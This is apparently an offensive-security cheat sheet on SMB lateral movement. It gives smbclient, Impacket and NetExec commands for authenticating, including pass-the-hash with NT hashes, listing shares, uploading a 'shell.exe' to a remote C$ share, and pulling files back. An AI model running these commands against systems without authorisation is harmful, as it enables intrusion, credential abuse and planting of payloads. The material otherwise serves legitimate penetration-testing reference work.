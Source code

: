 # Unix Shell

Search Tag(s): #lateral-movement #impacket #windows

## 01 - Authenticate

### 1.1 - Samba Suite Utils

```
$ smbclient -U "[<domain>/]<username>%<password>" //<IP>/c$
```

Pass the Hash

```
$ smbclient -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/c$
```

### 1.2 - Impacket

```
$ smbclient.py [<domain>/]<username>:<password>@<IP>
```

Pass the Hash

```
$ smbclient.py -hashes :<nt_hash> [<domain>/]<username>@<IP>
```

### 1.3 - NetExec

#### 1.3.1 - Authentication

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth]
```

- Pass the Hash

```
$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth]
```

## 02 - List Files and Directories

### 2.1 - Samba Suite Utils

```
smb: \> ls
```

### 2.2 - Impacket

```
# use c$

# ls
```

### 2.3 - NetExec

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --shares
```

## 03 - Copy Files

### 3.1 - Samba Suite Utils

Upload file

```
smb: \> put /path/to/local/shell.exe
```

Download file

```
smb: \> get \path\to\remote\file.txt
```

### 3.2 - Impacket

Upload file

```
# put /path/to/local/shell.exe
```

Download file

```
# get \path\to\remote\file.txt
```

### 3.3 - NetExec

Upload file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --put-file /path/to/local/shell.exe \\path\\to\\remote\\shell.exe
```

Download file

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt

$ netexec smb <IP> -u "<username>" -H "<nt_hash>" [-d <domain> | --local-auth] --get-file \\path\\to\\remote\\file.txt /path/to/local/file.txt
```

---
## References

- [NetExec Wiki: Get and Put Files](https://www.netexec.wiki/smb-protocol/get-and-put-files)